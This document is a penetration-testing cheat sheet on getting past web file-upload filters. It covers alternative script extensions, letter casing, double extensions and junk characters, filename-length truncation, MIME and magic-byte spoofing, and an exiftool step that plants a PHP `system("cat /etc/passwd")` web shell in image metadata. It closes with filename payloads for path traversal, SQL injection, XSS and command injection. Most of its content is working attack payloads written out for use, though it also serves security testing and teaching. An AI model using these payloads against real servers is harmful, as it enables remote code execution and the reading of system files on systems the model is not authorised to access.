 
# File Extension Types

Developers might blacklist some extension. However, this can be bypassed by using alternative extensions.

| Type       | Extensions                                          |
| ---------- | --------------------------------------------------- |
| PHP        | `.phtml`, `.php`, `.php3`, `.php4`, `.php5`, `.inc` |
| ASP        | `.asp`, `.aspx`                                     |
| Perl       | `.pl`, `.pm`, `.cgi`, `.lib`                        |
| JSP        | `.jsp`, `.jspx`, `.jsw`, `.jsv`, `.jspf`            |
| ColdFusion | `.cfm`, `.cfml`, `.cfc`, `.dbm`                     |

## Letter casing
One should also consider changing the casing of the letters.

```
.pHp
.PHP
.Php
```



# Double Extensions and Junk Data

## Intercept With Proxy (double extension)
In case a file is uploaded with **double extensions** follow the steps below:
1. Make the web request
2. Intercept the traffic with proxy
3. Remove the extension that indicates that the file is an image. `.png` `.jpg`
4. Forward the request
5. Open the uploaded file
## Ways To Evade Security Implementations

Adding a decoy extension before the real one

```
file.png.php
```

*junk* meaningless data in front of the extension

```
file.#.png
file.phpjunkDatapng
file.php%0a.png
```

 Special characters

```
file.php/
file.php....
file.
file.php%20
```

  
  

# Breaking filename length

1. Try what the maximum length accepted for the file name is, by adding a bunch of A's to the file name with the extension at the end. *(Linux maximum is 255 bytes)*
2. Upload the file and see how many characters it allows.
3. Add a valid and a `.php` extension to the file. Make it so that the valid extension gets cut off and the `.php` extension remains.
## Example
1. Assume max file length is 255
2. 251 A's and `.php` extension add up to 255
3. `AAA< SNIP 251 >AAA.php.png`
This way, the `.png` gets cut off and leaves the `.php`



# MIME type

Even `MIME` types can be blacklisted by developers.
By intercepting the traffic one can simply change it, to appeal to the server.

Normal PHP MIME type:

```
Content-type: application/x-php
```

Replace with:

```
Content-type: image/jpeg
```



# Magic Bytes
If an application uses the file's magic bytes to determine the `Content-Type` one can easily bypass it with changing the files magic bytes.

**Table of Magic Bytes**

| Type | Bytes                                      |
|------|--------------------------------------------|
| GIF  | `GIF89a`, `\x0A`                           |
| JPG  | `\xFF\xD8\xFF\xDB`                         |
| PNG  | `\x89\x50\x4E\x47\x0D\x0A\x1A\x0A`         |
| TAR  | `\x75\x73\x74\x61\x72\x00\x30\x30`         |

1. Open the file in `hexeditor`:
```bash
hexeditor <file>
```

2. Edit the first few bytes so that it fits the file type of your choice.

```
# In hexeditor (original)
00 00 00 00

# In hexeditor (changed to JPG)
FF D8 FF DB
```



# PHP getimagesize()

If a file's size gets validated with the `getimagesize()` function, it is possible to add a payload into the image's metadata with `exiftool`.

1. Add payload

```bash

exiftool -Comment='<?php system("cat /etc/passwd") ?>' <jpg_file>

```

2. Change file type

```

mv file.jpg file.php.jpg

```

3. Upload to server (proxy intercept)
  

# From file upload to other vulnerabilities
- Set **filename** to `../../../dev/shm/file.jpg` for **path traversal**
- Set **filename** to `sleep(10)-- -.jpg` for **SQL injection**
- Set **filename** to `<svg onload=alert(document.comain)>` for **XSS**
- Set **filename** to `; sleep 10;` for **command injection**


# References
- [https://book.hacktricks.wiki/en/pentesting-web/file-upload/index.html?highlight=file%20upload#from-file-upload-to-other-vulnerabilities](https://book.hacktricks.wiki/en/pentesting-web/file-upload/index.html?highlight=file%20upload#from-file-upload-to-other-vulnerabilities)
- [https://blog.doyensec.com/2023/02/28/new-vector-for-dirty-arbitrary-file-write-2-rce.html](https://blog.doyensec.com/2023/02/28/new-vector-for-dirty-arbitrary-file-write-2-rce.html)
- [https://blog.doyensec.com/2025/01/09/cspt-file-upload.html](https://blog.doyensec.com/2025/01/09/cspt-file-upload.html)
- [https://github.com/almandin/fuxploider](https://github.com/almandin/fuxploider) -- *tool for detecting file upload vulns*